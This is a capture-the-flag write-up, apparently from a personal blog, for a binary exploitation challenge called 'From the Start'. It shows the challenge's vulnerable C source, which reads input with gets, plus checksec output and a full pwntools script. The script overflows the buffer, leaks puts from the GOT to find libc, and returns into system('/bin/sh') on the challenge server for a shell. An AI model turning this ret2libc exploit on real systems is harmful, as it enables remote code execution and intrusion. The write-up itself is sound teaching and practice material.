

import PostFileDownload from "../../../components/PostFileDownload.astro";

# From the Start

<PostFileDownload name="2025-theace-fromthestart.zip" />

This challenge was nice enough to give source code!

```c
#include <stdio.h>

__attribute__((constructor)) void init(){
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
}

__attribute__((naked)) void helper(){
    __asm__(
        "pop %rdi\nret\n"
        "pop %rsi\nret\n"
        "pop %rdx\nret\n"
    );
}

int main(){
    init();
    char mem[0x100];
    puts("pwning from the start okay?");
    gets(mem);
    return 0;
}
```

```
$ checksec chall
[*] './chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

No protections all over, given free gadgets, and in the dist we are also given the Dockerfile so I could easily just grab the libc, this makes a ret2libc attack way easier to do.

The plan is now as follows:

1. Buffer overflow using insecure `gets` and take over RIP
2. Leak libc somehow
3. Ret2libc

RIP offset was found at 264 bytes, so now the next thing to do is to leak libc. Given the GOT Entry for puts, I can easily leak it to find offset of libc.

After that, just hook everything up to a classic ret2libc payload and get flag!
Here is the full script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: wintertia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'chall_patched')
context.terminal = ['tmux', 'splitw', '-h']
# context.log_level = 'debug'

host = args.HOST or '117.53.46.98'
port = int(args.PORT or 10000)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
b *main+65
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()
libc = ELF('./libc.so.6', checksec=False)

OFFSET = 264
POP_RDI = 0x00000000004011ad
POP_RSI = 0x00000000004011af
POP_RDX = 0x00000000004011b1
RET = 0x000000000040101a

payload = flat(
    cyclic(OFFSET, n=8),
    POP_RDI,
    exe.got['puts'],
    exe.plt['puts'],
    exe.sym['main'],
)

io.sendlineafter('?', payload)
io.recvuntil(b'\n')
leak = unpack(io.recv(6).ljust(8, b'\x00'))
log.info(f'Leaked puts address: {hex(leak)}')
libc.address = leak - libc.sym['puts']

BINSH = libc.search(b'/bin/sh').__next__()
SYSTEM = libc.sym['system']

log.info(f'Libc base address: {hex(libc.address)}')
payload = flat(
    cyclic(OFFSET, n=8),
    POP_RDI,
    BINSH,
    RET,
    SYSTEM,
)
io.sendlineafter('?', payload)

io.interactive()
```

Here it is being solved locally:


